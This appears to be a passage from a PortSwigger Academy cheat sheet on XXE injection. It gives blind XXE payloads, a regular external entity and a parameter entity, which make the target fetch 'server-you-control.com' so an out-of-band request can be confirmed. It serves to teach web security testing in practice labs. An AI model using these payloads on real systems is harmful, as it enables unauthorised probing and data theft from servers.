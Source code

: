 ![XXE Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/XXE%20Injection/Images/XXE-1.png)



<br><br><br>

**If the application <u>is not returning</u> the values of the defined external entities in its response, we need to use Blind Payload Techniques:**



### Blind XXE to a server you control

* Inject the following payload in the body of the request on the target application:


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://server-you-control.com"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* Check your server logs for any network traffic.


<br>

### Blind XXE to a server you control, when regular external entities are blocked (use parameter entities):

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://server-you-control.com"> %xxe; ]>
```

* Here the xxe parameter entity needs to be referenced “within” the DOCTYPE.
